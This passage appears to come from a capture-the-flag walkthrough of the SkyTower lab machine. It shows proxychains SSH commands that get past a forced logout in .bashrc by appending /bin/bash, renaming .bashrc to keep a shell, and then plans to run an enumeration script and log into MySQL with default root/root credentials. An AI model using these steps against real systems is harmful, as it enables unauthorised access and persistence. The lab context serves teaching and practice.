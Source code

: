```bash
```

We successfully connected to `ssh` but we are immediately kicked of after printing the message `Funds have been withdrawn`.
This is probably because of an entry in `.bashrc` file. We can get a shell by appending `/bin/bash` at the end of the `ssh` command. This ensures that our command is executed before we are kicked out. Rename the `.bashrc` file after getting the shell and then login again.

```bash
kali@kali:~$ proxychains ssh john@192.168.100.3 /bin/bash
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.100.3:3128-<><>-192.168.100.3:22-<><>-OK
john@192.168.100.3 password: 
ls
id
uid=1000(john) gid=1000(john) groups=1000(john)
ls -la
total 24
drwx------ 2 john john 4096 Jun 20  2014 .
drwxr-xr-x 5 root root 4096 Jun 20  2014 ..
-rw------- 1 john john    7 Jun 20  2014 .bash_history
-rw-r--r-- 1 john john  220 Jun 20  2014 .bash_logout
-rw-r--r-- 1 john john 3437 Jun 20  2014 .bashrc
-rw-r--r-- 1 john john  675 Jun 20  2014 .profile
mv ./.bashrc bashrc               
```

Re-login as `john`

```bash
kali@kali:~$ proxychains ssh john@192.168.100.3
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.100.3:3128-<><>-192.168.100.3:22-<><>-OK
john@192.168.100.3's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May  6 23:11:39 2020 from 192.168.100.3
john@SkyTower:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
john@SkyTower:~$ 
```

## Privilege Escalation

Download the Linux Enumeration script to the system and run it to probe for system weaknesses. 

### MySql
The script found that `MySql` has default credentials `root/root`. Login to `MySql` and dump the database.
